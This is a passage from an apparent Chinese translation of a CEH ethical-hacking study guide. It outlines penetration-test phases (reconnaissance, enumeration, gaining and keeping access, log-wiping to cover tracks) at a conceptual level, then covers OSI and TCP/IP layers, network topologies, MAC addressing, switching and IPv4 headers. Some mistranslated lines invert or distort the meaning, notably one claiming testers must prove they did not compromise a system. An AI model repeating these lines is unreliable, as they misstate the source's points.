请记住，在寻找目标详细信息时，你不仅会找到可能存在于企业网络中的网络块，还可能找到单个主机，这些主机可能属于托管在服务提供商处的系统。由于这些系统将运行可能提供入口点或仅存储敏感数据的服务，因此有必要跟踪你收集的所有内容，而不仅限于公司可能拥有的网络块信息。

在进行此项工作过程中，你可能还会发现目标员工的个人信息。在涉及社交工程攻击时，这将很有用。此类攻击很常见。事实上，一些估计表明，80% 到 90% 的入侵是这些社交工程攻击造成的。它们不是访问网络的唯一手段，但通常是最容易的入侵方式。

### 扫描与枚举

一旦你识别出网络块，你就会想要识别这些网络块中可访问的系统；这就是扫描与枚举阶段。然而，更重要的是，你想要识别任何可用主机上运行的服务。最终，这些服务将被用作入口点。目标是获得访问权限，这可能通过暴露的网络服务实现。这不仅包括所有开放端口的列表（这是有用的信息），还包括每个开放端口背后运行的服务和软件的身份。

这也可能导致收集不同服务提供的信息。这包括提供服务的软件，例如用于 Web 服务器的 nginx、Apache 或 IIS。此外，还有服务可能提供大量细节，不仅涉及软件，还涉及组织内部情况。例如，可能是用户名。如果查询得当，某些简单邮件传输协议（SMTP）服务器会泄露有效用户名。使用服务器消息块（SMB）协议或通用 Internet 文件系统（CIFS）协议的 Windows 服务器可以被请求提供信息。你可以获取诸如共享目录、用户名，甚至一些策略信息等详细信息。此阶段的目标是尽可能收集大量信息，以便为进入下一阶段提供起点。此阶段可能很耗时，尤其是随着你所合作的网络和企业规模增长。你在此处收集的细节越多，下一阶段对你来说就越容易。

### 获得访问权限

获得访问权限是许多人认为的渗透测试中最重要的部分，对许多人来说，也是最有趣的部分。这里你可以证明某些服务可能存在漏洞。你通过利用服务来做到这一点。当你已攻破系统或窃取数据并能够证明时，就不存在理论上的或误报。这凸显了道德黑客的一个重要方面：文档。仅仅说“嘿，我做到了”是不够的。你需要以某种方式证明或展示你没有成功攻破系统。

技术攻击，例如那些寻找监听网络服务漏洞的攻击，有时被认为是系统被攻破的方式，但现实是社交工程攻击更有可能成为攻击者获得系统访问权限的方式。这就是为什么枚举很重要的原因之一——因为你需要社交工程攻击的目标。有多种方法可以进行社交工程攻击，包括使用电子邮件要么用恶意软件感染计算机，要么诱使用户提供可用于其他目的的信息。例如，可能是用户名和密码。

从用户那里收集信息的另一种机制是让他们访问一个网站。这可能是一个你作为攻击者加载了恶意软件的网站，该软件会感染他们的系统。或者，如前所述，你可能在向他们索取信息。你在这里已经两次看到恶意软件被提及。了解恶意软件的工作原理及其可用位置可能是获得访问权限的重要部分。

你并不总是会被要求执行社交工程攻击。公司可能正在以其他方式处理安全意识（通常包括社交工程攻击意识），并且不希望或不期望你进行网络钓鱼攻击或基于 Web 的攻击。因此，你不应依赖使用这些技术来访问系统，尽管这样做相对容易。

### 维持访问权限

一旦进入，模拟常见攻击模式意味着你应该维持访问权限。如果你成功攻破了用户的系统，当用户关闭系统时，你将失去访问权限。这可能意味着你需要重新攻破系统。由于漏洞利用不一定总是有效，下次你尝试攻破时可能无法进入。除此之外，你可能使用过依赖于已修复漏洞的攻破方式。你的下一次尝试可能会失败，因为漏洞不再存在。你需要给自己其他进入系统的手段，以确保你保留查看该系统（以及可能整个企业网络）上正在发生情况的能力。


这是另一个恶意软件可能有益的阶段。例如，您可能需要安装一个 rootkit，它可以为您提供后门，以及模糊您在系统上的操作和存在的手段。您可能需要在系统上安装其他软件以维持访问权限。这可能需要在完成初始妥协后，将软件复制到目标系统上。

因此，这个阶段可能没有看起来那么简单。可能存在多种因素阻碍您确保维持访问权限。不过，有多种方法可以维持访问权限。不同的操作系统允许使用不同的技术，但每个操作系统版本或更新都可能使不同的技术变得更难。道德黑客攻击取决于具体情况，这也是其具有挑战性的原因之一。没有单一答案或直接的方法。一台 Windows 10 系统可能容易被攻破，因为存在可用但缺失的补丁。另一台 Windows 10 系统可能难以入侵，因为它是最新的，并且已通过权限和其他设置进行了加固。

## 掩盖痕迹

掩盖痕迹是指您隐藏或删除已设法访问的任何证据。此外，您还应掩盖持续的访问。这可以通过恶意软件来实现，该软件确保您的操作未被记录，或者可能错误报告系统信息（例如网络连接）。

在尝试掩盖痕迹时需要牢记一件事是，有时您的操作也可能提供您工作的证据。一个示例是，在 Windows 系统上擦除日志会留下一个日志条目，指示日志已被擦除。这可能会向任何监控日志的人指示，有人试图擦除证据。这不能保证日志擦除是恶意的，但可能足以促使某人进一步调查。因此，掩盖痕迹可能具有挑战性。不过，这可能正是您被要求做的事情——挑战并测试运营团队的响应能力。因此，始终牢记您接案的目标非常重要。

## 摘要

伦理的重要性无论如何强调都不为过。当您报名 CEH 认证并通过考试时，将被要求遵守一套道德准则。您在与客户和雇主打交道时，需要始终保持专业行为。您需要成为委托给您的任何数据的负责任的保管人。

# 第 2 章

# 网络基础

本章涵盖以下 CEH 考试主题：

- 网络技术
- 通信协议
- 电信技术
- 网络拓扑
- 子网划分


虽然本章考试涵盖的主题看起来不多，但所涵盖的内容是后续许多内容的基础。毕竟，除非您坐在正在攻击的计算机前（这非常罕见），否则您将与网络进行交互。在某些情况下，不同的攻击，当然还有防御，都会使用网络技术和通信协议。

要了解网络的工作原理，了解协议如何相互配合的概念可能会有所帮助。有一个用于描述通信协议及其功能的概念模型。描述这些功能的另一种方法有时被称为模型，但它更多是一种实际构建的架构设计。在本章中，我将介绍开放系统互连（OSI）模型和 TCP/IP 架构。

将被要求理解网络拓扑。拓扑通常是概念性的，可以用作以逻辑方式组织系统以查看它们如何连接的方法。这将引导我们讨论网络的物理元素，包括它们如何寻址。归根结底，在对系统进行联网时，我们希望它们能够相互通信。要做到这一点，每个系统都需要有供其他系统寻址的方式。如您将看到的，每个系统都会有多个地址。这指回前面提到的模型，因为不同的地址是与不同层不同功能进行通信的方式。

当我们从物理组件向上移动网络协议栈时，我们将开始讨论您可能最熟悉的协议：互联网协议（IP）、传输控制协议（TCP）和用户数据报协议（UDP）。这些将是您需要深入理解的基础协议，不仅用于测试系统，还用于为您工作的公司如何修复不同漏洞提供指导。

在公司提供信息技术服务的一种常见方法，尤其是当服务面向外部用户或客户时，是使用服务提供商。云计算可以用作这种外包的一种实现。使用这些服务提供商并与已将系统和服务放置在他们那里的组织合作，为执行安全评估或渗透测试的人引入了一些特定的挑战。这意味着了解这些外部服务提供商的工作原理可能至关重要。

## 通信模型

我们通过系统的地址访问系统。问题是每个系统都会有多个地址。最好将这些地址分到与每个地址所属协议提供的功能相关的桶中。第一个通信模型，无论从我们将要讨论的内容来看，还是从历史角度来看（基本上它是最早的），都更多是概念性的，而非严格实用。我将接着介绍一个实用模型。

这些通信模型被分解为多层，层与层之间相互堆叠。因为它呈现为一堆层级，您经常会听到它们被称为网络协议栈或协议栈。在涉及这些网络协议栈时，一个重要的考虑因素是各层都是独立的，功能各不相同。当两个系统通信时，每个系统都有这些概念层，第一个系统上的层 C 只能与第二个系统上的层 C 通信，而不能与层 B、A 或 D 通信。这是因为两个系统上层 C 的协议匹配。其他协议也是如此。例如，您可以在图 2.1 中看到一组网络标头。发送端生成此组标头的层/功能只能由接收端的同一层/功能读取。

### 图 2.1 网络标头

```
• Frame 63: 1486 bytes on wire (11888 bits), 1486 bytes captured (11888 bits) on interface 0
• Ethernet II, Src: Apple_0c:36:f9 (f0:18:98:0c:34:69), Dst: Tp-LinkT_7d:f4:ba (18:d6:c7:7d:f4:ba)
• Internet Protocol Version 4, Src: 192.168.80.26, Dst: 13.107.28.11
  0100 .... = Version: 4
  .... 0101 = Header Length: 20 bytes (5)
• Differentiated Services Field: 0x00 (DSCP: CS0, ECN: Not-ECT)
  Total Length: 1472
  Identification: 0x0000 (0)
  Flags: 0x0000, Don't fragment
• Flags: 0x0000, Don't fragment
  Time to Live: 64
• Protocol: TCP (6)
  Header checksum: 0xffef [validation disabled]
  [Header checksum status: Unverified]
  Source: 192.168.80.26
  Destination: 13.107.28.11
• Transmission Control Protocol, Src Port: 55623, Dst Port: 443, Seq: 2101, Ack: 79, Len: 1432
  Source Port: 55623
  Destination Port: 443
  [Stream Index: 6]
  [TCP Segment Len: 1432]
  Sequence number: 2101    (relative sequence number)
  [Next sequence number: 3533    (relative sequence number)]
  Acknowledgment number: 79    (relative ack number)
  1011 .... = Header Length: 20 bytes (5)
  Flags: 0x018 (PSH, ACK)
  Window size value: 4096
  [Calculated window size: 4096]
```


## 协议

在深入探讨之前，我应该先定义什么是协议。协议是一组规则或惯例，用于规定通信。当你在街上遇到认识的人时，你可能会点头或说你好。对方很可能会回应你的问候。这就是一种协议。你知道自己应该说什么或做什么，而通信的另一方也知道该如何回应。计算机本质上也是一样的——它们知道一组规则和预期行为。如果没有这些协议，你可能会把小手指伸进耳朵去问候熟人，而对方则可能脱掉一只鞋朝你扔过来。这将是一种协议不匹配，你们两人都不知道适当的回应是什么，因为他们不知道最初的通信尝试意味着什么。

在介绍两种通信模型的过程中，我将不仅讨论每一层存在的功能，还会讨论每一层存在的协议。学完之后，你将掌握两种不同但并不截然不同的方式，来理解协议如何在系统间通信，以及系统/应用程序之间的消息是如何组装的。

将网络通信的功能划分为层意味着功能被模块化。这意味着可以很容易地从链中提取一个协议并插入另一个协议。例如，在以太网上运行的应用程序与在SONET或帧中继上运行的应用程序是相同的。所有这些协议都存在于同一层。之所以可行，是因为每一层的功能都被抽象化，这意味着各层可以相互通信而不需要知道细节，因为功能是已知的。具体的协议未必重要。无论我们讨论的是哪种模型，每一层都有许多不同的协议。

## 开放系统互连

在20世纪70年代末之前，通信系统使用专有协议，这使得难以概念化正在发生的事情。每种协议以不同的方式定义不同的通信。在20世纪70年代末，国际标准化组织（ISO）开始制定一套通信标准。其背后的想法是允许供应商之间实现更好的互操作性。如果所有功能在概念上都被拆分出来，接口点就会更清晰，因此也更容易进行交互。

1978年，最初的模型被宣布。经过改进后，它被发布为OSI模型。尽管人们对该模型的复杂性以及其不太可能被实施的可能性存在担忧，但它仍然是一个坚实的模型，有助于引用网络协议栈中功能之间的边界。OSI模型包含七层。在指示特定功能时，网络专业人员可能会按层数引用该功能。我们很快就会看到这是如何工作的。

图2.2展示了OSI模型的七层。在讨论该模型时，我们通常从底层开始，逐层向上直到顶层。模型的最底层是连接到网络的地方。最顶层则是与用户交互的地方。

### 图2.2 OSI模型的七层

| 层 |
| :--- |
| 应用层 |
| 表示层 |
| 会话层 |
| 传输层 |
| 网络层 |
| 数据链路层 |
| 物理层 |

由于我们从应用层向下构建消息，我们将从这里开始讨论每一层及其角色，并向下进行。不过，值得注意的是，人们通常用来帮助记住不同层级的各种记忆法是从底层开始的。例如，我的一位学生曾建议使用“Please Do Not Touch Steve’s Pet Alligator”来帮助记住顺序。不过，那是从底到顶。无论如何，如果你记住任一顺序，并能记住每一层的作用，那么你就掌握得不错了。

### 应用层（第7层）

应用层是最接近最终用户的一层。然而，这并不意味着它就是应用程序本身。我们讨论的是协议。应用层协议管理应用程序的通信需求。它们可以识别资源并管理与这些资源的交互。例如，超文本传输协议（HTTP）是一个应用层协议。它负责处理客户端和服务器之间资源（页面等）的协商。

### 表示层（第6层）

表示层负责为应用层准备数据。它确保交给应用程序的数据格式正确，以便可以被使用。当系统进行通信时，两个端点之间可能存在格式不一致的情况，而表示层确保数据格式正确。因此，字符编码格式，如美国信息交换标准代码（ASCII）、Unicode和扩展二进制编码十进制交换代码（EBCDIC）都属于表示层。此外，联合影像专家小组（JPEG）格式也被认为属于表示层。

### 会话层（第5层）

会话层在维护应用程序（客户端或服务器）通信时，管理端点之间的通信。远程过程调用（RPC）是会话层功能的一个示例。文件共享的某些组件也存在于会话层，因为端点之间的通信协商需要进行。应用层负责管理资源，而会话层负责确保文件（例如）成功传输且完整。

### 传输层（第4层）

传输层负责对消息进行分段以进行传输。传输层还负责通信的多路复用。TCP和UDP都是传输协议。这些协议使用端口进行寻址，以便接收系统知道将流量传递给哪个应用程序。

### 网络层（第3层）

网络层负责将消息从一个端点传送到另一个端点。它通过处理寻址和路由来实现这一点。IP是存在于这一层的一种协议。

### 数据链路层（第2层）

还需要考虑的另一个地址是介质访问控制（MAC）地址。这是一个第2层地址，用于标识网络上的网络接口，以便通信可以在本地网络上从一个系统传到另一个系统。地址解析协议（ARP）、虚拟局域网（VLAN）、以太网和帧中继都是数据链路层协议。它们负责格式化将在传输介质上发送出去的数据。

### 物理层（第1层）

这一层可能不言而喻。这是所有管理物理通信的协议。10BaseT、10Base2、100BaseTX和1000BaseT都是物理层协议的示例。它们规定了线路上脉冲的处理方式。

OSI模型的一个问题是，将协议映射到七层时并不总是有很好的对应关系。问题常常出现在会话层和应用层之间。例如，安全外壳协议（SSH）存在于哪一层？是会话层，因为它最终管理会话，还是表示层，因为它包含加密机制并对其进行协商？其他协议似乎存在于层之间。例如，ARP据说在数据链路层运行，但它需要知道网络层，因为它在这两个层的寻址之间提供了桥梁。

不过，在某些地方，拥有这个模型会使概念化事物变得容易得多。例如，你家里可能有一个非常令人困惑的设备。你可能称它为路由器，或者你可能认识称它为路由器的人。问题是，如前所述，路由是第3层功能，而设备中还有其他严格属于第2层的功能，这意味着你有交换机端口在你的


## TCP/IP 架构

本地网络中不涉及路由。此外，您的设备完全可能根本不进行路由，而是正在桥接到提供商的网络。这完全取决于您的设备工作方式以及提供商对您的设备的期望。这就是理解不同层级有用的地方。您可以更好地确定可能存在的问题所在，因为您可以隔离功能。

20世纪60年代末，ARPANet首次被开发和实现。在随后的几年里，它迅速超越了1968–69年连接的最初两个，随后三个节点。随着更多系统连接到网络，负责管理网络和开发用于交换信息的协议的人们学到了很多。最初的协议是1822协议，它定义了与接口消息处理器（Interface Message Processor，IMP）的通信，IMP是一台带有专用接口的大型计算机，充当消息网关（可以将其视为非常原始的路由器）。1822协议后来被网络控制程序（Network Control Program，NCP）取代。

到1983年，经过多年发展，NCP被一套现在通常称为传输控制协议（Transmission Control Protocol，TCP）/互联网协议（Internet Protocol，IP）的协议完全取代。TCP/IP中使用的协议套件的工作方式与OSI模型的描述方式略有不同（Transmission Control Protocol/Internet Protocol，TCP/IP）。TCP/IP实现后，描述了协议的概念设计。出于这个原因，该套件有时被称为模型，但也可能被称为架构，因为它描述的是实际构建的设计，而非概念性的东西。

TCP/IP架构比OSI模型简单得多，这是一个直接的差异，反映了与OSI概念设计相比的实际构建特性。由于OSI模型必须抽象且灵活以容纳各种各样的协议和设计，因此它被划分为前面描述的七个功能类别。另一方面，TCP/IP作为实际构建的定义，只有四层。

这并不是说OSI模型和TCP/IP架构之间没有关联。如图2.3所示，两者之间有很多相似之处。

### 图2.3 TCP/IP架构层

| 层 |
|-------|
| 应用层 |
| 传输层 |
| 互联网层 |
| 链路层 |

您会注意到相似之处。首先，两者都有应用层。还有传输层。互联网层和网络层的命名非常相似。
基本上，OSI模型中的会话层、表示层和应用层被合并为TCP/IP模型中的应用层。此外，OSI模型中的物理层和数据链路层被合并为TCP/IP模型中的链路层。被合并层中的相同功能在TCP/IP模型中也存在。不过，从概念上讲，它更容易理解。任何与应用程序通信相关的内容，包括任何会话管理和数据格式化，都在应用层中。同样，在TCP/IP模型中，物理层和数据链路层被合并在一起。

无论您更喜欢使用哪种模型来思考网络，您都会发现协议通常不会横跨多个层。它们是为满足特定功能的要求而设计的，这将非常明确地落在每个模型的某一层中。

在本章的其余部分，而且根据我的经验，在现实世界中也非常常见，当您看到对层的引用时，该引用是指OSI模型，而不是TCP/IP架构。

## 拓扑结构

网络设计的方式也使用概念模型，作为将物理网络的迷宫映射到逻辑表示的一种方法。这不仅有助于获得网络的逻辑图，还有助于识别一切是如何连接的，因为这将有助于隔离潜在问题。不同的拓扑引入不同的潜在问题。您还通常会发现，某些拓扑仅出现在特定情况下。有些会出现在服务提供商网络中，而其他拓扑则更常见于局域网。

### 总线网络

如图2.4所示，总线网络由一根网络电缆组成，网络上的每台设备都连接到该电缆。总线是一种通信通道。您可能会在计算机内部发现总线，用于在通道之间进行通信。在我们的情况中，它是一种通信通道（一根网络电缆），允许多台计算机之间的通信。一些总线网络的工作方式是使用带有T型连接器的同轴电缆。T型连接器提供了一种从总线中提取信号的方法，以便为网络上的系统提供连接。这种类型的总线网络需要在电缆末端放置某物，以使信号保持在电线上。这些电气设备称为终端器。您可以看到总线末端的块。它们防止信号反射回电线，导致信号抵消。

### 图2.4 总线网络



您会注意到总线网络中没有中介设备。所有计算机都通过那根单网络电缆直接相互连接。

### 星型网络

当您看到星型网络图时，它通常看起来与总线网络相似。但是，总线网络和星型网络之间的区别在于，所有设备之间都有一个中介设备。如果您使用的是非常旧的网络，这可能是一个集线器，即一种愚蠢的电气中继器，或者您可能有一个交换机。您可以在图2.5中看到传统图。在这种情况下，您看到的中心线（看起来像总线）实际上是交换机或集线器。这些设备将接收到的信号再发送到其他设备。在集线器的情况下，网络上的每台设备都会收到该信号。如果您的网络使用交换机，信号将发送到正确的端口。

### 图2.5 星型网络



这就是不同层级有用的地方。交换机是星型网络拓扑中最常见的设备，它在OSI模型的第2层工作。它使用MAC地址来决定流量流向。在带有集线器的星型网络中，会出现与总线网络相同的问题——电线上发出的消息会与其他人发送的消息发生大量碰撞。交换机缓解了这些问题，因为只有寻址给某个系统的流量才会发送到该系统。

### 环形网络

环形网络与总线网络相似，因为网络上的所有节点似乎都连接在一个连续的网络段上。流量在系统之间绕环传递。您可以在图2.6中看到逻辑表示。之所以是逻辑表示，是因为从物理上讲，这些网络的布线并非如此。一种环形网络是令牌环网。在令牌环网中，系统的布线方式像星型网络一样，使用多站点接入单元（MAU）。尽管它们是这样布线的，但它们的行为不像星型网络。这时您应该记住，这些是概念模型。无论布线如何，行为才是拓扑命名的依据。

### 图2.6 环形网络



与总线网络一样，环形网络也存在碰撞问题。令牌环网通过使用“说话棒”来避免这个问题。就像您围坐在原始部落的营火旁时，只有拿到棍子的人才能说话一样，令牌环网使用一种称为令牌的说话棒的数字表示。只有拥有令牌的系统才能说话。如果没有系统需要发送消息，令牌会在系统之间传递。当系统需要说话时，它必须等待令牌传递到它手中。这在理论上可以避免碰撞问题，但有时令牌会丢失，这意味着必须生成一个新令牌。生成新令牌后，旧令牌可能会突然再次“被发现”，这意味着网络上有两个令牌。

尽管环形网络的行为类似于总线网络，但不需要像总线网络那样使用终端器。构建该网络所需的硬件


如同处于环形配置中一样的功能解决了回传到线路上的回声问题。

### 网状网络

在另一种拓扑中，系统之间直接相连。图 2.7 显示了一个示例。这看起来有点像环形布线，但更像是点对点。要从一个系统到达另一个系统，如果它们没有直接连接，一个系统必须通过另一个系统。网状网络通常会避免总线网络的另一个潜在问题。如果总线网络中间的系统失败，整个网络有可能随之失败。该系统本质上充当终端电阻，不允许电信号通过。如果网状网络中的系统失败，通常还有另一条路径可以在系统之间通信。

FIGURE 2.7 网状网络



尽管你可以在网状网络中以多种方式连接系统，尽管网络的环形设计显得井井有条，但少量故障仍可能隔离网状网络中的节点。解决方法是添加连接。从一个系统到达另一个系统的路径越多，故障导致灾难性后果（即通信无法进行）的可能性就越小。你可以不断添加连接，直到网络上的每个系统都与其他每个系统相连。你可以在图 2.8 中看到这种设计的示例。图中所示即为所谓的全连网状网络。网络中的每个系统都与其他每个系统相连。

FIGURE 2.8 全连网状网络



添加更多连接的问题是随之而来的复杂性。你可以隐约看到这一点。将其图表化会让人难以看出所有连接在哪里。每次向网络添加一个节点，你不只是添加一个连接。你添加的连接数量与现有节点数量相同，因此连接数几乎呈指数增长。事实上，为了确定连接数量，可以使用公式 n(n-1)/2。每个系统都与除自身以外的每个系统相连，这就是为什么我们将系统数量乘以比系统数量少一的数量（例如，如果你有 5 个系统，公式将是 5(5–1)/2。这将是 5 * 4，即 20，除以 2，得到 10 个连接）。我们除以 2，是因为我们不是从一个系统向另一个系统双向连接。我们只需要一个连接。

### 混合

在合适的条件下，前面提到的每种拓扑结构都很好。然而，在某些情况下，融合多种网络拓扑结构才是连接网络的正确方式。一种非常常见的混合方式是星型总线。如果你有能够支持 64 个网络连接的交换机，但需要将 200 个用户连接到本地网络，你就需要在网络拓扑中添加一个总线。总线将所有交换机连接在一起，并成为网络的主干。然后，从每个交换机，你都有传统的星型结构，所有连接都返回到它们所连接的交换机。

同样，将你的交换基础设施以网状或环形连接可能很有帮助。这可能是为了冗余目的，以确保有多条路径到达你网络的所有部分。如果一切都在总线上且总线失败，某些网络段可能会被隔离。因此，设置具有多条路径的网络非常有意义。网状网络或环形网络可能对此有所帮助。

## 物理网络

在某个时候，你需要连接到网络。该交互涉及多个组件。你在本端需要一个网络接口。你需要一种承载通信的介质。你需要在通信的另一端有某个东西。由于我们在进行安全测试时不太可能在服务提供商或电信提供商工作，至少不是在网络的提供商一侧，因此我们不需要担心帧中继、异步传输模式或光纤分布式数据接口等协议。当我们讨论物理网络时，你几乎只会遇到以太网协议。

网络堆栈的每一层都有不同的术语来指代由该层封装的数据块。这些数据块称为协议数据单元（PDU）。第 2 层的 PDU（即我们在此讨论的一部分）是帧。当你查看包含物理地址的数据块时，你在查看的是帧。当我们到达那些层时，我们将讨论其他 PDU 的名称。

## 寻址

以太网接口都有地址。这些地址对每个网络接口都是唯一的，称为 MAC 地址。由于 MAC 地址被硬编码到接口的硬件中，它有时也被称为硬件地址。因为它也是物理硬件使用的地址，它有时也被称为物理地址。

MAC 地址的常见格式是 6 个八位字节（8 位字节），通常用冒号分隔。MAC 地址示例为 BA:00:4C:78:57:00。地址分为两部分。第一部分是组织唯一标识符（OUI）。这也被称为供应商 ID，因为它标识制造该接口的公司名称。MAC 地址的后半部分是该接口在供应商 ID 范围内的唯一地址。因此，一半用于供应商，一半用于网卡本身。

### MAC 地址

MAC 地址以十六进制值表示，因为这是表示八位字节的常见方法。一对十六进制值覆盖字节的潜在值范围——00 是 0，ff 是 255。当你查看 IP 地址时，当然在做十六进制转储时，也可能遇到这种情况。

MAC 地址仅在本地网络上使用。任何想要向你发送东西的系统都会将其寻址到你的 MAC 地址。你也可以使用广播地址向网络上的每台设备发送消息。广播 MAC 地址是 ff:ff:ff:ff:ff:ff。你的网络接口知道自己拥有什么地址，因为它在硬件中。然而，这意味着任何以某种方式寻址到接口的流量（例如直接发送到其地址或发送到广播地址）都会从网络接口转发到操作系统。其他所有流量都会被忽略，除非接口被明确指示不要忽略。这虽然是个不寻常的情况，但对数据包捕获是必要的。

## 交换

MAC 地址是交换的基石。交换是基于物理地址做出消息转发决策的过程。交换机其实是一种多端口网桥。流量是根据目标 MAC 地址从一个接口转发到另一个接口的。不过，这也意味着交换机需要知道哪个 MAC 地址位于哪个端口。它通过等待每个端口上的消息到达并注意源地址来实现这一点。

由于查找消息应转发到哪个端口需要时间，这会减慢消息传输速度，因此查找必须尽可能快。这通常通过使用一种称为内容寻址内存（CAM）的东西来实现。这意味着，要查找一个值，你需要基于另一个值来搜索它。不是使用数值索引的数据数组（即我们使用类似 array[5] 的东西来获取数组中索引 5 处的值），而是使用 MAC 地址作为索引值。这意味着你需要搜索所有数据或保持其有序才能找到任何东西。这很耗时。直接通过索引到 MAC 地址来查找端口值更容易。

交换机所做的（也是交换的价值所在）是根据目标 MAC 地址决定哪些流量发送到哪个端口。这减少了从交换机端口发出并通过线路传输的流量量。这提高了性能，因为你可以用特定于连接到交换机端口的系统的流量填充网络连接，而不是用网络上的所有其他流量来淹没它。不过，在安全测试方面，这确实会带来一些其他问题。在交换环境中，你只能看到发往连接到交换机端口的系统的流量。在执行安全测试（模拟攻击者）时，能够看到比那更多的流量会更方便。

应对这一挑战有一些方法。其中一种方法是，如果你对交换机有一定控制权，可以告诉交换机将一个端口的流量镜像到另一个端口。然后，你需要将用于发起攻击的系统连接到镜像端口。另一种方法是欺骗交换机将流量发送到你这里，这涉及我们将在后续章节中介绍的攻击方法。


## IP

进入网络层后，我们会遇到 IP。当然，网络层还存在其他协议，例如 Internet Packet Exchange (IPX)，但由于互联网运行在 IP 及其相关协议之上，我们将重点关注 IP。到目前为止，我们没有太多讨论头部。每经过一层，就会添加一组特定于处理该消息的协议的数据到消息中。这一组数据称为头部。每种协议都有自己的一组附加头部。消息随后被头部封装，从而创建一个全新的 PDU。对于 IP，PDU 称为包。你可能会听到网络上每一组数据都被称为包，但从技术角度来看，从 IP 头部向下的消息才是包。

寻址也是需要考虑的一点。这是网络工程师通常比较熟悉的一个方面，但了解地址的组成很有用。与地址相关的是子网掩码。这可能难以理解，但一旦掌握了一些数学技巧，就会有所帮助。此外，还有几种不同的子网掩码表示方式，你经常会遇到这两种方式。

当前正在使用的 IP 有两个版本。最常见的是版本 4，通常称为 IPv4。在过去几十年中，我们一直在向版本 6 过渡。过渡尚未完成，但每个现代设备和操作系统都支持 IPv6，因此你在与之交互的大多数系统上都会看到 IPv6 地址。IPv6 相对于 IPv4 有一些差异，其中不少的是地址空间的大小。

IP 被视为一种尽力而为协议。它会尽最大努力将数据包从源传输到目的地。它不会做任何事情来绝对确保数据包送达。不过，它通过提供寻址来促进传输。

## 头部

互联网工程任务组（IETF）负责维护与协议相关的所有文档。当有人（或者更常见的是一群人）想要提议一种新协议或对现有协议进行扩展时，他们会编写一种称为请求评论（RFC）文档的内容。IETF 不仅维护 RFC，还管理其批准流程。第一份 RFC 编写于 1969 年，与用于将计算机系统连接到 ARPAnet 的 IMP 主机软件相关。当然，当时 IETF 还不存在，但使用 RFC 仍然是制定规范和标准的流程。

IP 的 RFC 于 1981 年出版，编号为 791。它定义了 IP 的工作方式，并定义了 IP 使用的头部字段。图 2.9 显示了从网络捕获的消息中的一组 IP 头部。这是引用的 RFC 中将以表格形式呈现的同一组头部。表格形式与以这种方式查看头部的区别在于，通过表格，你可以清楚地看到每个头部字段的大小。

### 图 2.9 IP 头部

```
Internet Protocol Version 4, Src: 108.177.112.189, Dst: 192.168.86.40
0100 .... = Version: 4
... 0101 = Header Length: 20 bytes (5)
Differentiated Services Field: 0x00 (DSCP: CS0, ECN: Not-ECT)
Total Length: 69
Identification: 0x0000 (0)
Flags: 0x0000
> 0... .... = Don't Fragment: False
> ..0. .... = More Fragments: False
Time to live: 58
Protocol: UDP (17)
Header checksum: 0x4c69 [validation disabled]
[Header checksum status: Unverified]
Source: 108.177.112.189
Destination: 192.168.86.40
```

以下是带有描述和大小的头部字段：

**版本** 此字段指示数据包中使用的是哪个版本的 IP。这是一个 4 位字段。

**头部长度** 此字段指示 IP 头部中有多少个字。由于头部基于 32 位字（即 4 字节），你可以将此值乘以 4 来获取字节数。在本示例中，你会发现头部为 20 字节（5 个字），这对 IP 头部来说很常见。

**服务类型** RFC 将此字段称为服务类型（ToS）字段，但你也会看到它被称为区分服务字段。此字段通过对某些消息进行优先级排序并降低其他消息的优先级，帮助网络元素做出服务质量（QoS）决策。这是一个 8 位（1 字节）字段。

**总长度** 这是消息的总长度，包括 IP 头部和任何后续数据。这不包括事后添加的任何头部，例如第 2 层头部。此字段长 2 字节，允许的总消息长度为 65,535 个八位组（字节）。

**标识** 有时，要发送的数据量过大，无法根据长度字段的大小容纳在允许的最大长度内。这意味着消息有时需要分片。所有发送的消息都会设置此字段，但只有在存在分片时它才有意义。所有分片都将具有相同的标识值。

**标志** 标志字段分配了 3 位。一位保留，第二位指示消息是否可以分片。这有时称为 DF 位。如果设置了该位，则表示不要分片消息。最后一位用于指示是否还有其他分片。如果设置了该位，则还有更多分片。如果未设置（即 0），则是最后一个分片。对于自包含消息（即不需要分片的消息），该位将被清除。

